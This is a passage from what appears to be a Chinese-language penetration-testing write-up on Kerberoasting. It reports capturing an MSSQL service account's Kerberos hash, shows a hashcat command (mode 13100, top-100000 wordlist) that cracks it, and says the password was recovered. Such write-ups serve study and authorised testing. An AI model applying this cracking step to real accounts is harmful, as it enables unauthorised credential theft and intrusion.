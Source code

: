 成功获取 `mssql` 服务 `hash`字符串

[![](assets/1708919803-d8fbeaff6130adf460ad98035389b1ba.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240218142057-e0ae0cee-ce25-1.png)

#### 使用 hashcat 进行破解

```bash
hashcat -m 13100 '/home/kali/Desktop/hashes' '/home/kali/Desktop/10_million_password_list_top_100000.txt' --force
```

成功获取了服务账户的密码

[![](assets/1708919803-70bda3858773b3195e191acc26d2afa7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240218142102-e3f47c44-ce25-1.png)
